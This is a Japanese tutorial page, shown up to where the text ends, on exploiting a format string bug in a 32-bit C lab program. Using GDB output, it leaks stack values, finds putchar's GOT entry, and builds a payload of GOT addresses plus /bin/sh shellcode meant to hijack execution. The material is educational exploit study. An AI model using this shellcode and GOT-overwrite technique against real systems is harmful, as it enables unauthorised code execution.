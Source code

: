 <!-- TITLE: Format String Attack -->
<!-- SUBTITLE: A quick summary of Format String Attack -->

# FSBのコード

ももいろテクノロジー様の記事を参考に進めていく[^1]


```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char buf[100];
    printf("[+] buf = %p\n", buf);
    strncpy(buf, argv[1], 100);
    printf(buf);
    putchar('\n');
    return 0;
}
```

# コンパイル

```sh
$ sudo sysctl -a | grep kernel.randomize_va_space
kernel.randomize_va_space = 2
$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
$ gcc -m32 -z execstack fsb.c -o fsb
$ ./fsb $(python -c 'print "AAAA" + ".%08x"*16')
[+] buf = 0xffffd1e8
AAAA.ffffd517.00000064.00f0b5ff.ffffd20e.00000001.000000c2.ffffd304.ffffd20e.ffffd310.41414141.3830252e.30252e78.252e7838.2e783830.78383025.3830252e
```

最初の**AAAA**を*0*とすると、*10*番目に**41414141**、すなわちASCIIコードの**AAAA**が表示されている

# GDB
まず、`print(buf)`に該当する部分にブレークポイントを貼る
&#8942;

```sh
$ gdb -q ./fsb
⋮
gef➤  disas main
Dump of assembler code for function main:
   0x080484cb <+0>:	lea    ecx,[esp+0x4]
   ⋮
   0x08048518 <+77>:	call   0x80483b0 <strncpy@plt>
   0x0804851d <+82>:	add    esp,0x10
   0x08048520 <+85>:	sub    esp,0xc
   0x08048523 <+88>:	lea    eax,[ebp-0x70]
   0x08048526 <+91>:	push   eax
   0x08048527 <+92>:	call   0x8048370 <printf@plt>
   ⋮
	 0x08048534 <+105>:	call   0x80483a0 <putchar@plt>
   ⋮
   0x08048559 <+142>:	ret    
End of assembler dump.
gef➤  b *main+92
Breakpoint 1 at 0x8048527
```

次に、`<putchar@plt>`のアドレスを逆アセンブルして、GOT tableを除く

```sh
gef➤  disas 0x80483a0
Dump of assembler code for function putchar@plt:
   0x080483a0 <+0>:	jmp    DWORD PTR ds:0x804a018
   0x080483a6 <+6>:	push   0x18
   0x080483ab <+11>:	jmp    0x8048360
End of assembler dump.
```

とりあえず実行して、`0x804a018`を*xinfo*コマンドでアドレスの情報を調べる

```sh
gef➤  r AAAA
⋮
gef➤  xinfo 0x804a018 
──────────────────────────────────────────[ xinfo: 0x804a018 ]──────────────────────────────────────────
Page: 0x0804a000  →  0x0804b000 (size=0x1000)
Permissions: rwx
⋮
```

*Permissions*を見てみると、**w**ビットが立っていることから書き込み可能領域であることがわかる

%hhn指定子を使って1byteずつ処理する予定なので、実行時の引数は

```python
>>> from pwn import *
>>> addr = 0x0804a018
>>> p32(addr) + p32(addr + 1) + p32(addr + 2) + p32(addr + 3)
b'\x18\xa0\x04\x08\x19\xa0\x04\x08\x1a\xa0\x04\x08\x1b\xa0\x04\x08'
```

GDBにこれを引数で渡してやる

```sh
gef➤  r $(python -c 'print "\x18\xa0\x04\x08\x19\xa0\x04\x08\x1a\xa0\x04\x08\x1b\xa0\x04\x08"')
⋮
gef➤  telescope $esp l20
0xffffd130│+0x00: 0xffffd158  →  0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18	 ← $esp
0xffffd134│+0x04: 0xffffd4ba  →  0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18
0xffffd138│+0x08: 0x00000064 ("d"?)
0xffffd13c│+0x0c: 0x00f0b5ff
0xffffd140│+0x10: 0xffffd17e  →  0x00000000
0xffffd144│+0x14: 0x00000001
0xffffd148│+0x18: 0x000000c2
0xffffd14c│+0x1c: 0xffffd274  →  0xffffd494  →  "/home/mkm/Develop/unix/c_test/got/fsb"
0xffffd150│+0x20: 0xffffd17e  →  0x00000000
0xffffd154│+0x24: 0xffffd280  →  0xffffd4cb  →  "XDG_SEAT=seat0"
0xffffd158│+0x28: 0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18	 ← $eax
0xffffd15c│+0x2c: 0x0804a019  →  <_GLOBAL_OFFSET_TABLE_+25> add DWORD PTR [eax+ecx*1], 0x0
0xffffd160│+0x30: 0x0804a01a  →  <_GLOBAL_OFFSET_TABLE_+26> add al, 0x8
0xffffd164│+0x34: 0x0804a01b  →  <_GLOBAL_OFFSET_TABLE_+27> or BYTE PTR [eax], al
0xffffd168│+0x38: 0x00000000
0xffffd16c│+0x3c: 0x00000000
0xffffd170│+0x40: 0x00000000
0xffffd174│+0x44: 0x00000000
0xffffd178│+0x48: 0x00000000
0xffffd17c│+0x4c: 0x00000000
```

スタックフレームを見ると、先ほどなぜ*10*番目に**41414141**が位置していたかがわかる（$eax = $esp + 0x28, 0x28 / 4 = 10）

## Shellcodeを入れる位置（オフセット）

[^1] と同様のshellcodeをここでは用いる

```python
shellcode = "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"
```

shellcodeを挿入するとして、どこに入れるといいだろうか？
先ほどの、アドレス引数4つの後にくっつけてGDBで実行してみる

```sh
gef➤  r $(python -c 'print "\x18\xa0\x04\x08\x19\xa0\x04\x08\x1a\xa0\x04\x08\x1b\xa0\x04\x08" + "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"')
⋮
gef➤  telescope $esp l25
0xffffd110│+0x00: 0xffffd138  →  0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18	 ← $esp
0xffffd114│+0x04: 0xffffd4a2  →  0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18
0xffffd118│+0x08: 0x00000064 ("d"?)
0xffffd11c│+0x0c: 0x00f0b5ff
0xffffd120│+0x10: 0xffffd15e  →  0x000080cd
0xffffd124│+0x14: 0x00000001
0xffffd128│+0x18: 0x000000c2
0xffffd12c│+0x1c: 0xffffd254  →  0xffffd47c  →  "/home/mkm/Develop/unix/c_test/got/fsb"
0xffffd130│+0x20: 0xffffd15e  →  0x000080cd
0xffffd134│+0x24: 0xffffd260  →  0xffffd4cb  →  "XDG_SEAT=seat0"
0xffffd138│+0x28: 0x0804a018  →  0x080483a6  →  <putchar@plt+6> push 0x18	 ← $eax
0xffffd13c│+0x2c: 0x0804a019  →  <_GLOBAL_OFFSET_TABLE_+25> add DWORD PTR [eax+ecx*1], 0x0
0xffffd140│+0x30: 0x0804a01a  →  <_GLOBAL_OFFSET_TABLE_+26> add al, 0x8
0xffffd144│+0x34: 0x0804a01b  →  <_GLOBAL_OFFSET_TABLE_+27> or BYTE PTR [eax], al
0xffffd148│+0x38: 0x6852d231
0xffffd14c│+0x3c: 0x68732f2f
0xffffd150│+0x40: 0x69622f68
0xffffd154│+0x44: 0x52e3896e
0xffffd158│+0x48: 0x8de18953
0xffffd15c│+0x4c: 0x80cd0b42
0xffffd160│+0x50: 0x00000000
0xffffd164│+0x54: 0x00000000
0xffffd168│+0x58: 0x00000000
0xffffd16c│+0x5c: 0x00000000
0xffffd170│+0x60: 0x00000000
```

先ほどとは異なり、*0xffffd148*からshellcodeがスタックに積まれている
すなわち、このアドレスに飛ばすようにGOT tableを書き換えればshellが起動するはず
このアドレスと$eax（**\x18\xa0\x04\x08**が最初に書き込まれたアドレス）からのオフセットは、4byteのアドレス4個分なので、4 * 4 = **16**

